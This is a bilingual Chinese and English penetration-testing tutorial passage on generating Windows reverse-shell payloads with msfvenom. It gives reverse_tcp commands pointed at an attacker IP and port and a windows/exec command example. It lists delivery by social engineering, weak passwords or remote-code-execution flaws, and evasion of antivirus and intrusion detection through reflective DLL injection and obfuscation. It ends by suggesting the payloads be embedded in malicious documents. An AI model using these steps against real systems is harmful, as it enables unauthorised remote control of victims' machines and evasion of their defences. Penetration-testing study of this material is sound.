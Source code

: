 #### 生成CMD Shell Payload

使用`msfvenom`工具可以生成包含CMD Shell的恶意载荷。以下是生成CMD Shell Payload的示例命令：

```plaintext
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker IP> LPORT=<attacker port> -f exe > shell.exe
```

在上述命令中，我们使用`windows/shell_reverse_tcp`模块生成一个反向TCP连接的CMD Shell Payload。`LHOST`参数指定攻击者的IP地址，`LPORT`参数指定攻击者监听的端口号。生成的Payload将保存为`shell.exe`文件。

#### 运行CMD Shell Payload

一旦我们成功生成了CMD Shell Payload，我们可以将其传递给目标系统并执行。以下是一些常见的传递和执行CMD Shell Payload的方法：

- 通过社会工程学手段诱使目标用户点击恶意链接或下载恶意文件。
- 利用漏洞或弱密码获取目标系统的访问权限，并上传并执行Payload。
- 使用远程执行命令（RCE）漏洞执行Payload。

无论使用哪种方法，一旦成功执行了CMD Shell Payload，我们就可以在目标系统上执行各种命令和操作，包括浏览文件系统、执行系统命令、上传/下载文件等。

#### 绕过防御措施

为了成功使用CMD Shell进行渗透测试，我们可能需要绕过一些防御措施。以下是一些常见的绕过技术：

- 使用反射型DLL注入技术，将Payload注入到合法进程中，以避免被杀毒软件检测。
- 使用加密和编码技术对Payload进行混淆，以绕过入侵检测系统（IDS）和入侵防御系统（IPS）。
- 利用系统漏洞或弱密码，获取系统管理员权限，以绕过权限限制。

综上所述，CMD Shell是一种强大的工具，可用于渗透测试和攻击。通过生成恶意Payload并成功执行，我们可以获取对目标系统的控制，并执行各种操作。然而，我们应该始终遵守法律和道德规范，在合法授权的情况下使用这些技术。
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```
### **执行命令**

To execute a command using `msfvenom`, you can use the following syntax:

使用`msfvenom`执行命令，可以使用以下语法：

```plaintext
msfvenom -p <payload> CMD=<command> [...]
```

Where `<payload>` is the desired payload to use and `<command>` is the command you want to execute.

其中，`<payload>`是要使用的有效载荷，`<command>`是要执行的命令。

For example, to execute the `whoami` command, you can use the following command:

例如，要执行`whoami`命令，可以使用以下命令：

```plaintext
msfvenom -p windows/exec CMD="whoami" -f <format> [...]
```

Replace `<format>` with the desired output format for the payload.

将`<format>`替换为有效载荷的所需输出格式。

After generating the payload, you can use it in various ways, such as embedding it in a malicious document or delivering it through a social engineering attack.
